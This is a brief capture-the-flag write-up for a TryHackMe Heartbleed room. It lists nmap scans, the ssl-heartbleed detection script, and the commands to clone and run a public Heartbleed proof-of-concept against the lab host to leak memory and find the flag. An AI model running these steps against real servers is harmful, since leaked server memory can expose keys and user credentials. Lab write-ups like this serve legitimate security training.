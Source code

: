 # HeartBleed

**Room Link:** [https://tryhackme.com/room/heartbleed](https://tryhackme.com/room/heartbleed)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/443 - HTTPS

We can see the site is vulnerable to heartbleed

**Kali**

```
nmap -p 443 --script ssl-heartbleed $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I had to run the exploit a couple times but eventually I found some interesting info. Most importantly the flag.

**Kali**

```
git clone https://github.com/mpgn/heartbleed-PoC.git
cd heartbleed-PoC/
python2.7 heartbleed-exploit.py 34.240.174.225
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>











